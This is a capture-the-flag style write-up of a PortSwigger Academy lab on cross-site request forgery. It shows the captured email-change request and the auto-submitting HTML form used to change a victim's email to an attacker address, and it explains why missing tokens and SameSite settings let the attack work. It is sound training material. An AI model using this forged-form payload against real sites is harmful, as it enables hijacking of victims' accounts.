



# CSRF vulnerability with no defenses

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Apprentice  
**Date Completed:** 26 November 2026  
**Status:** Solved

---

## Lab Description

This lab contains a CSRF vulnerability in the email change functionality.  
There are **no defenses** against CSRF (no CSRF token, no SameSite cookie restrictions, etc.).

The goal is to force a logged-in victim to change their email address to one controlled by the attacker.

---

## Tools Used

- Burp Suite Community Edition (Proxy + HTTP history)
- PortSwigger Exploit Server
- Firefox with FoxyProxy

---

## Solution Steps

### 1. Analyze the legitimate request

1. Log in to the lab account.
2. Change the email address while intercepting the request in Burp.
3. Observe the request:

```http
POST /my-account/change-email HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=...
Content-Type: application/x-www-form-urlencoded

email=new-email@example.com
```

There is **no CSRF token** in the request body or headers.

### 2. Create a CSRF exploit

On the Exploit Server, craft a simple auto-submitting form:

```html
<html>
<body>
  <form action="https://<lab-id>.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@evil-user.net" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```

### 3. Deliver the exploit

1. Store the exploit on the Exploit Server.
2. Click **Deliver exploit to victim**.
3. The victim’s browser automatically submits the form while authenticated, changing the email address.

### 4. Verify

After the exploit is delivered, the lab shows the new email address and the “Congratulations” banner.

---

## Why the Payload Works

- The application trusts any POST request to `/my-account/change-email` that comes with a valid session cookie.
- There is no anti-CSRF token, no origin/referer validation, and no SameSite cookie attribute that would block the cross-site request.
- When the victim visits the attacker-controlled page, the browser automatically sends the session cookie with the forged POST request.

---

## Screenshots

### Lab solved (email changed)



### Exploit Server payload



### Request in Burp HTTP history



---

## Key Takeaways

- Classic CSRF attack against a state-changing action (email change).
- When no defenses are present, a simple auto-submitting HTML form is enough.
- Always check whether sensitive actions require a unique, unpredictable token.
- The Exploit Server is the standard way to deliver CSRF payloads in PortSwigger labs.

---

## References

- [PortSwigger – Cross-site request forgery (CSRF)](https://portswigger.net/web-security/csrf)
- [Lab link](https://portswigger.net/web-security/csrf/lab-no-defenses)
